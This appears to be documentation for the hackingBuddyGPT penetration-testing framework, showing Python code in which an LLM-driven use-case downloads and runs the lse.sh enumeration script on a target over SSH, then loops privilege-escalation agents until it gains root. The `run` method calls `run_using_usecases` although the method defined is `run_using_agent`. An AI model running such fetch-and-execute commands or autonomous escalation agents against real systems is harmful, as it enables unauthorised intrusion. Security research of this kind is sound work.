 ```yaml
---
title: Calling Agents from Use-Cases
nextjs:
  metadata:
    title: Calling Agents from Use-Cases
    description: "HackingBuddyGPT: Create a custom use-case which calls other (existing) agents"
---
```


So you have an idea for a new use-case and want to call other existing agents from within that use-case. This is easily possible using hackingBuddyGPT.

One example of this would be `LinuxPrivescWithLSEUseCase`. This example use-case initially calls the `LSE.sh` binary to enumerate the target system, takes its output, and uses an LLM to extract up to three hints based upon the enumeration. It subsequently calls the standard `LinuxPrivesc` Agent with the hint to perform the actual privilege escalation attack.

To achieve this, our use-case is sub-classing `UseCase`, thus we need to implement `get_name` and `run` ourself. The `run` method in turn is used to call `call_lse_against_host` to perform the enumeration using `lse.sh`. It also uses an LLM to summarize the output into potential hints that will be later passed on to the agent.

In the `run` method itself, we iterate over the hints and call the `run_using_agent` method to actually instantiate a new agent that will be used to hack the target system. We calculate a new `max_turn` value so that the overall turn count will stay constant.

```python
@use_case("Linux Privilege Escalation using lse.sh for initial guidance")
class LinuxPrivescWithLSEUseCase(UseCase):
    conn: SSHConnection = None
    max_turns: int = 20
    enable_explanation: bool = False
    enable_update_state: bool = False
    disable_history: bool = False
    llm: OpenAIConnection = None

    _got_root: bool = False

    def init(self):
        super().init()

    # simple helper that uses lse.sh to get hints from the system
    def call_lse_against_host(self):
        self._log.console.print("[green]performing initial enumeration with lse.sh")

        run_cmd = "wget -q 'https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh' -O lse.sh;chmod 700 lse.sh; ./lse.sh -c -i -l 0 | grep -v 'nope$' | grep -v 'skip$'"

        result, _ = SSHRunCommand(conn=self.conn, timeout=120)(run_cmd)

        self.console.print("[yellow]got the output: " + result)
        cmd = self.llm.get_response(template_lse, lse_output=result, number=3)
        self.console.print("[yellow]got the cmd: " + cmd.result)

        return [x for x in cmd.result.splitlines() if x.strip()] 

    def get_name(self) -> str:
        return self.__class__.__name__
    
    def run(self):
        # get the hints through running LSE on the target system
        hints = self.call_lse_against_host()
        turns_per_hint = int(self.max_turns / len(hints))

        # now try to escalate privileges using the hints
        for hint in hints:
            result = self.run_using_usecases(hint, turns_per_hint)
            if result is True:
                self.console.print("[green]Got root!")
                return True

    def run_using_agent(self, hint, turns_per_hint):
        # init agent
        agent = LinuxPrivesc(
            conn = self.conn,
            llm = self.llm,
            hint = hint,
            enable_explanation = self.enable_explanation,
            enable_update_state = self.enable_update_state,
            disable_history = self.disable_history
        )
        agent._log = self._log
        agent.init()

        # perform the privilege escalation
        agent.before_run()
        turn = 1
        got_root = False
        while turn <= turns_per_hint and not got_root:
            self._log.console.log(f"[yellow]Starting turn {turn} of {turns_per_hint}")

            if agent.perform_round(turn) is True:
                got_root = True
            turn += 1
        
        # cleanup and finish
        agent.after_run()
        return got_root
```

The `run_using_agent` method is simple (and a bit tedious). After we instantiate the `LinuxPrivesc` agent (please remember to set `_log` and call `.init()` and `.before_run()`), we have to manually implement the loop that will call the agent's `perform_round` method.
